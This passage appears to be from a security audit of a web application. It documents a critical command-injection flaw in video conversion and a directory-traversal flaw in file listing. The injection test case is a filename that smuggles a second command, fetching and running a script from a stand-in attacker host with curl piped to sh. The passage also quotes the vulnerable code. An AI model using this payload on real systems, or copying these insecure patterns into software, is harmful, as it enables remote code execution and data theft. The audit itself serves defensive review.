 ## 8. Unrestricted File Processing in Video Conversion (Critical Severity)
**Description:**
Video processing uses shell commands without validation:
1. Direct command concatenation
2. No file signature verification
3. Absence of sandboxing

**Impact:**
Arbitrary command execution via malicious uploads

**Current Mitigations:**
None

**Missing Mitigations:**
- File signature verification
- Dockerized processing
- Input size limits

**Preconditions:**
- File upload capability
- Attacker-controlled filename

**Source Analysis:**
```python
# backend/video_to_app.py
subprocess.run(f"ffmpeg -i {user_uploaded_path}", shell=True)
```

**Test Case:**
Upload file named `; curl https://attacker.com/payload.sh | sh;.mp4`

## 9. Directory Traversal in File Handling (High Severity)
**Description:**
User-controlled `folder` parameter allows path manipulation:
1. Unrestricted path access
2. No normalization/sanitization
3. Disclosure of system files

**Impact:**
Sensitive file exposure (e.g., /etc/passwd, environment variables)

**Current Mitigations:**
None

**Missing Mitigations:**
- Path normalization
- Directory jail restrictions
- Input validation

**Preconditions:**
- API endpoint access
- Basic authentication

**Source Analysis:**
```python
# backend/routes/evals.py
@router.get("/evals")
def get_evals(folder: str):
    target_path = Path(folder)  # User-controlled path
    return list_files(target_path)
```
